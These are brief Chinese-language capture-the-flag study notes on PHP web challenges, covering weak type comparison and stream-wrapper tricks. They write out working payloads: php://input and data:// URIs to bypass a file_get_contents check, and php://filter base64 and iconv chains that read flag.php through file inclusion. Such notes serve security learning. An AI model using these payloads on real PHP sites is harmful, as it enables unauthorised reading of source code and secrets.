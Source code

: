 ## 弱类型比较

==

===



## 伪协议



利用伪协议绕过

```
if(file_get_contents($file2) === "hello ctf")
```



`php://input` 伪协议绕过

```
?xxx=php://input
```

POST数据：

```
hello ctf
```

即可绕过



`data://` 伪协议绕过

```
?xxx=data://text/plain;base64,
```

后面加上需要匹配的内容的base64编码

或者

```
?xxx=data://text/plain,
```

后面加上url编码内容





需要注意一下，有时候hackbar会犯病，时常发出去的还是显示缓存页面



include包含文件有时候没有回显，所以需要：

使用 `php://filter/read=convert.base64-encode/resource=` 进行读取

```
?file1=php://filter/read=convert.base64-encode/resource=flag.php
```



```
?filename=php://filter/convert.iconv.utf8.utf16/resource=flag.php
```


